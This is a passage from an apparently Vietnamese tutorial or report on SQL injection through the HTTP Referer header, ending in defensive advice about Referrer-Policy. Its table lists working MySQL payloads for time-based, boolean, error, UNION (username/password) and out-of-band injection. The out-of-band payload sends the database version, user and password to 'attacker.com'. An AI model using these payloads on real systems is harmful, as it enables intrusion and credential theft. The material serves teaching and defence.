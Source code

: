 Điều này có nghĩa là nếu một ứng dụng dễ bị SQL Injection qua Referer header, nó ngụ ý rằng backend của ứng dụng có khả năng bị tấn công bởi các kỹ thuật SQLi tương tự được sử dụng cho các vector đầu vào khác. Sự lựa chọn kỹ thuật của kẻ tấn công (ví dụ: time-based so với error-based) sẽ phụ thuộc vào cách ứng dụng phản hồi với payload được chèn (ví dụ: lỗi hiển thị, thay đổi nội dung, độ trễ thời gian, hoặc không có phản hồi trực tiếp nào yêu cầu OOB). Điều này nhấn mạnh rằng việc phòng thủ chống lại SQLi dựa trên Referer đòi hỏi sự hiểu biết toàn diện về tất cả các kỹ thuật SQLi, không chỉ một tập hợp các cuộc tấn công cụ thể liên quan đến Referer. Các chuyên gia bảo mật và nhà phát triển phải giả định rằng nếu Referer header dễ bị tổn thương, thì ứng dụng có lỗi cơ bản trong việc xử lý đầu vào và xây dựng truy vấn, khiến nó dễ bị tấn công bởi một loạt các cuộc tấn công tinh vi.

---

**Bảng 2: Các Kỹ thuật Khai thác SQL Injection qua HTTP Referer Header**

| Loại SQL Injection | Cơ chế Khai thác qua Referer Header | Ví dụ Payload Tiêu biểu (MySQL) | Ưu điểm | Nhược điểm |
| :--- | :--- | :--- |:--- | :--- |
| **Time-Based Blind SQLi** | Kẻ tấn công chèn hàm gây trễ thời gian (`SLEEP()`, `WAITFOR DELAY()`) vào Referer. Quan sát thời gian phản hồi để suy luận tính đúng/sai của điều kiện. | `` `Referer: '+(select*from(select(if(length(database())='6',sleep(20),false)))a)+'` `` | Hiệu quả khi không có phản hồi trực tiếp hoặc lỗi hiển thị. | Rất chậm, dễ bị ảnh hưởng bởi độ trễ mạng, caching. |
| **Boolean-Based Blind SQLi** | Chèn các điều kiện TRUE/FALSE vào Referer. Quan sát sự thay đổi tinh tế trong phản hồi HTTP (nội dung, mã trạng thái) để suy luận. | `` `Referer:...' AND 8074=8074--` `` | Không cần lỗi hiển thị hay độ trễ thời gian. | Rất chậm, cần nhiều yêu cầu để trích xuất dữ liệu. |
| **Error-Based SQLi** | Cố tình chèn các câu lệnh SQL gây lỗi. Nếu ứng dụng hiển thị thông báo lỗi chi tiết, thông tin về cấu trúc DB hoặc dữ liệu có thể bị trích xuất. | `` `Referer: ' AND EXTRACTVALUE(1, CONCAT(0x7e, VERSION()))--` `` | Trích xuất thông tin nhanh chóng nếu lỗi được hiển thị. | Phụ thuộc vào việc hiển thị lỗi chi tiết (thường tắt trong môi trường production). |
| **Union-Based SQLi** | Kết hợp truy vấn độc hại với truy vấn gốc bằng `UNION SELECT`. Yêu cầu ứng dụng hiển thị kết quả truy vấn. | `` `Referer: ' UNION SELECT username, password FROM users--` `` | Trích xuất dữ liệu trực tiếp và hiệu quả. | Yêu cầu ứng dụng hiển thị kết quả truy vấn, cần xác định số cột và kiểu dữ liệu. |
| **Out-of-Band (OOB) SQLi** | Buộc máy chủ DB gửi dữ liệu đến điểm cuối từ xa của kẻ tấn công (qua DNS/HTTP request), không cần phản hồi trực tiếp trên cùng kênh. | `` `Referer: ' UNION SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',(SELECT+password),'.attacker.com\\test.txt'))--` `` | Rất mạnh mẽ khi các kênh khác bị chặn, khó bị phát hiện. | Yêu cầu máy chủ từ xa và các hàm DB có khả năng gửi yêu cầu mạng. |

## 5. Đề xuất Phòng chống SQL Injection qua HTTP Referer Header (2024-2025)

Phòng chống SQL Injection nói chung và SQL Injection qua HTTP Referer nói riêng đòi hỏi một cách tiếp cận đa lớp, kết hợp các biện pháp kỹ thuật ở cấp độ mã nguồn, cấu hình hệ thống và giám sát liên tục. Không có một biện pháp duy nhất nào có thể đảm bảo an toàn tuyệt đối, do đó, việc triển khai một chiến lược phòng thủ toàn diện là điều cần thiết.

### Kiểm soát Referrer-Policy Header

**Mô tả:** `Referrer-Policy` là một HTTP response header cho phép website kiểm soát lượng thông tin Referer được gửi đi khi người dùng điều hướng hoặc tải tài nguyên. Mặc dù mục đích chính của nó là bảo vệ quyền riêng tư của người dùng và ngăn chặn rò rỉ thông tin nhạy cảm qua URL, việc cấu hình chính sách này một cách phù hợp có thể gián tiếp giảm thiểu một số rủi ro liên quan đến việc Referer header bị thao túng.

**Các giá trị chính của Referrer-Policy:**
* `no-referrer`: Đây là tùy chọn nghiêm ngặt nhất, chỉ thị trình duyệt không bao giờ gửi Referer header trong bất kỳ yêu cầu nào.
* `same-origin`: Chỉ gửi Referer header cho các yêu cầu cùng origin (cùng giao thức, host, và port). Đối với các yêu cầu cross-origin, Referer header sẽ không được gửi.
* `strict-origin-when-cross-origin`: Đây là giá trị mặc định của nhiều trình duyệt hiện nay và được khuyến nghị rộng rãi. Chính sách này gửi Referer đầy đủ (origin và path) cho các yêu cầu cùng origin, nhưng chỉ gửi origin (không bao gồm đường dẫn) cho các yêu cầu cross-origin. Nó cũng không gửi Referer nếu giao thức bị hạ cấp (ví dụ: từ HTTPS sang HTTP).
* `strict-origin`: Chỉ gửi origin của trang giới thiệu (ví dụ: `https://example.com/`), không bao gồm đường dẫn, cho tất cả các yêu cầu, dù là cùng origin hay cross-origin.
